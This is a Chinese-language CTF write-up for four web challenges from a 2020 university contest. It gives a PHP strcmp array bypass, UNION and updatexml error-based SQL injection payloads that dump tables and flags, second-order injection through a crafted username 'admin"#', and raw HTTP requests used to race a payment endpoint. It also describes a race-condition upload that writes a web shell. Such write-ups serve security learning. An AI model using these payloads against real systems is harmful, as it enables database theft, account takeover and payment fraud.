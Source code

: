 ```yaml
---
title: 中计量现科CTF竞赛
date: 2020-06-21
image: 
description: 由中国计量大学现代科技学院主办的比赛。
categories: 
- ctf_writeup
tags:
- 二次注入
- 条件竞争
---
```



------

### easyweb

源码忘了脱下来，大概考察PHP strcmp()函数，直接数组绕过

```
?password[]=shit
```

 

 

 

### 成绩单

白给题，Union注入无任何过滤，上来直接一血

```
id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
//fl4g,sc
id=-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#
//flag
id=-1' union select 1,flag,3,4 from fl4g#
//flag{Sql_INJECT0N_4813drd8hz4}
```

 

 

 

 

### shop

考点：条件竞争

说实话一开始以为是逻辑漏洞，尝试了半天没搞出来，想到了条件竞争但是因为爆破的时候线程设置的不够高，所以没搞出来，时候来又尝试了一次才想到。

#### 什么是条件竞争

参考：https://www.jianshu.com/p/09d0eb938e6a


竞争条件发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。

开发者在进行代码开发时常常倾向于认为代码会以线性的方式执行，而且他们忽视了并行服务器会并发执行多个线程，这就会导致意想不到的结果。

线程同步机制确保两个及以上的并发进程或线程不同时执行某些特定的程序段，也被称之为临界区（critical section），如果没有应用好同步技术则会发生“竞争条件”问题。



#### 两个例子

##### 例1：金额提现

假设现有一个用户在系统中共有2000元可以提现，他想全部提现。于是该用户同时发起两次提现请求，第一次提交请求提现2000元，系统已经创建了提现订单但还未来得及修改该用户剩余金额，此时第二次提现请求同样是提现2000元，于是程序在还未修改完上一次请求后的余额前就进行了余额判断，显然如果这里余额判断速度快于上一次余额修改速度，将会产生成功提现的两次订单，而数据库中余额也将变为-2000。而这产生的后果将会是平台多向该用户付出2000元。

 

##### 例2：先存储文件，再判断是否合法，然后再删除。

首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，典型的“引狼入室”

攻击：首先上传一个php文件

当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。

#### 回到题目

打开题目，显示账户剩余20元，flag需要21元，然后你可以输入小于等于20元的金额，另外有个重置按钮

思路就是分别抓两个包，一个不停的支付20元，一个不停的重置，在高并发的情况下服务器响应不过来就可以造成支付两次

注意事项就是支付金额最好是10元以上，如果是一两元的话，就不能和另外一个包形成竞争还有就是线程要多

```
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=20&submit=
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=&restart=1
```

开两个intruder，线程20，爆破出flag

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171516.png)

 

 

### easy

考点：二次注入

打开就一个注册登录界面，admin账户已经注册了，登录之后可以改密码，本来以为是越权，后来放出了hint是二次注入，以前对于这样的二次注入比较陌生，感觉此题还是有点意思

 

#### 利用注册用户名进行sqli

注册这里没有sqli，在改密码那里才可以触发，盲猜查询语句：

```
update XXX set password = "xxx" where username = "xxx" and (old)password = "xx";
```

hint提示了注入之后，在注册用户名那里，注册：

```
admin"#
```

登录进去之后，修改密码为123456，改完之后我们可以直接123456登录admin的账户了，说明我们已经注入成功了

但是到这里一筹莫展，后来才想到可以继续利用sqli查信息

 

#### 利用报错注入查信息

简单fuzz了一下，空格，/**/这些被过滤了，update不知道能不能union，我直接想到报错注入+括号套娃

```
test"||updatexml(2,concat(0x7e,(database())),0)#
//easy
abc"||updatexml(2,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='easy')),0)#
//article,flag,user
abc"||updatexml(2,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag')),0)#
//flag
abc"||updatexml(2,concat(0x7e,(select(flag)from(flag))),0)#
//flag{We11D0Ne_hOhO}
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171534.png)

其实主要就是这个二次注入比较难想到，学到许多